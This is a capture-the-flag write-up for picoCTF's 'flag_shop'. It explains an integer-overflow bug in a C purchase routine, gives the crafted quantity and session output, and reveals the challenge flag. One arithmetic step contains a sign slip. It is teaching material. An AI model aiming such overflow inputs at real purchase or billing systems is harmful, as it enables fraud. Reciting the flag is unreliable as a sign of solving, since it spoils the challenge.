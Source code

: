 # flag_shop
Points: 300

## Table of Contents
  * [Description](#description)
  * [Hints](#hints)
  * [Solution](#solution)
    * [**Vulnerable code block**](#vulnerable-code-block)
    * [**The vulnerability**](#the-vulnerability)
    * [**Exploiting the vulnerability**](#exploiting-the-vulnerability)
    * [**Input justification**](#input-justification)
  * [Flag](#flag)
  
## Description
There's a flag shop selling stuff, can you buy a flag? [Source](files/store.c). Connect with ```nc jupiter.challenges.picoctf.org 44566```.

## Hints
1. <details>
    <summary>Hint 1</summary>
    Two's compliment can do some weird things when numbers get really big!
    </details>

## Solution

### **Vulnerable code block**
From the given [source code](files/store.c), it seems that the following code block contains a vulnerability that we can exploit to purchase the flag.

```C
int number_flags = 0;
fflush(stdin);
scanf("%d", &number_flags);
if(number_flags > 0){
    int total_cost = 0;
    total_cost = 900*number_flags;
    printf("\nThe final cost is: %d\n", total_cost);
    if(total_cost <= account_balance){
        account_balance = account_balance - total_cost;
        printf("\nYour current balance after transaction: %d\n\n", account_balance);
    }
    else{
        printf("Not enough funds to complete purchase\n");
    }
```

Although it makes sure that ```number_flags``` cannot be negative, it simply multiplies ```number_flags``` by ```900``` to compute ```total_cost``` without further validation. This operation can lead to an [integer overflow](https://en.wikipedia.org/wiki/Integer_overflow) vulnerability.

### **The vulnerability**
```int``` datatype in C has an upper limit, which is [2147483647]([2147483647](https://www.geeksforgeeks.org/int_max-int_min-cc-applications/)) or ```(2^31) - 1```. If we have the following program

```C
int main() {
  int i = 2147483647;
  i++; // add 1 to the upper limit
  printf("%d", i);
  return 0;
}
```

It will print ```-2147483648```, which is the lower limit of ```int``` datatype in C, since adding to the upper limit causes the program to wrap around to the lower limit.

### **Exploiting the vulnerability**
One solution is to input the following number for ```number_flags``` (the number is computed with Python)

```Python
>>> round(((2**31) / 900) + 2)
2386095
```

Our main goal here is to make ```total_cost``` a negative number and make ```account_balance``` a large positive number.

### **Input justification**
Here, ```(2^31) / 900``` will pass the first check ```if(number_flags > 0)``` as it is a positive number and it does not exceed the upper limit of ```int```. 

When it is multiplied by 900 to compute the total cost,

```(2^31) / 900 * 900 = (2^31)```

It will return ```(2^31)```, which is greater than the upper limit ```(2^31)-1``` and thus, it will return the lower limit due to the overflow. This makes ```total_cost``` negative.

However, in the program, we start with ```int account_balance = 1100;```. If we simply use ```(2^31) / 900```, the following code will make ``` account_balance``` to be ```-(2^31)+1100``` that will not overflow to become a large positive number since it does not exceed the lower limit.

```account_balance = account_balance - total_cost;```

Therefore, the ```+ 2``` in ```((2**31) / 900) + 2``` can be used to cancel out ```1100```.

```total_cost = (((2**31) / 900) + 2) * 900```

```total_cost = (2**31) + 1800```

```(2**31)``` will overflow to become ```-(2**31)```

```account_balance = 1100 - (-(2**31) + 1800)```

```account_balance = -(2**31) - 700```

which will overflow to be a large positive integer.

```
$ nc jupiter.challenges.picoctf.org 44566
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

Finally, we can purchase the actual flag.

```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: *****
```

## Flag
<details>
  <summary>Flag</summary>
  picoCTF{m0n3y_bag5_68d16363}
</details>